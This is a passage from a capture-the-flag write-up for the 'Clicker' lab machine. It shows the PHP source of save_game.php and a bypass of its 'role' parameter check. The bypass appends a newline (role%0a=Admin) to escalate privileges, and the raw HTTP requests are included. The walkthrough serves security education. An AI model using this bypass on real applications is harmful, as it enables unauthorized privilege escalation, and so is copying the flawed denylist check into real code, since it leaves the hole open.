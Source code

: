 
 now that we have the code i went to check if the source code that i see matches the active application on port 80. The source code matched the application which allowed us to have a deeper understanding on what the application is doing. Looking through the applications source code of the **save_game.php** file it seemed odd to me that there was a specific check if the **role** parameter is being supplied or not. However this check is quite easy to bypass by using a character that doesn't destroy the functionality but still alters the key name.
```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
?>
```

So i tried to bypass this by adding a CRLF character at the end of the key. The php code should still interpret this as the original value but it won't match the string search anymore. this will then end up with the following key to add onto the save request
```
role%0a=admin
```

We send the following request
```
GET /save_game.php?clicks=24&level=0&role%0a=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=t7nav29pjbsd0omvf7edup7bac
Upgrade-Insecure-Requests: 1
```

The server would then redirect us and in the next request we can see we didn't get the error message meaning our message went through
```
GET /index.php?msg=Game%20has%20been%20saved! HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/save_game.php?clicks=24&level=0&role%0a=Admin
Cookie: PHPSESSID=t7nav29pjbsd0omvf7edup7bac
Upgrade-Insecure-Requests: 1
```